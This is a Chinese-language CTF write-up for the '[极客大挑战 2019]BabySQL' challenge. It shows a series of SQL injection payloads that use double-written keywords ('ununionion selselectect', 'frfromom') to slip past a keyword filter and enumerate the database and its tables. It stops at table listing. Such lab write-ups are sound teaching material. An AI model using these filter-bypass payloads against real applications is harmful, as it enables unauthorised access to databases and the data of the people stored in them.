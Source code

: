 ![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732273124288-5a253b60-7f68-41ee-8dd5-e1db45c7df0a.png)





## [极客大挑战 2019]BabySQL
输入万能公式，都没反应

直接注吧，过滤了 or 和 by

```sql
1' order by 3#
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732275065300-453f8022-c6de-49d9-86d0-b12d7b03acf9.png)

试试联合注入 union 和 select 都被过滤了

```sql
-1' union select group_concat(table_name) from information_schema.tables#
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732275387806-76d7771c-5d26-4388-8cf8-eaafbab7a126.png)

试试双写绕过，可以。就是字段数不一样

```sql
-1' ununionion selselectect group_concat(database())#
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732275772022-cc58a8ae-648f-433d-b393-4a4a176839a8.png)

3 个字段可以

```sql
-1' ununionion selselectect 1,2,group_concat(database())#
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732275862952-e3110abf-2da9-42af-bd9e-843b1a17093e.png)

下一步看出from， where 被过滤了

```sql
-1' ununionion selselectect 1,2,group_concat(table_name) from information_schema.tables where table_schema='geek'#
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732275979049-78f0b705-dfe4-4a29-8449-0515ccbda90e.png)

双写

```sql
-1' ununionion selselectect 1,2,group_concat(table_name) frfromom infoorrmation_schema.tables whewherere table_schema='geek'#
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732276289917-022b9618-6981-454c-8afa-aeadd72509fd.png)
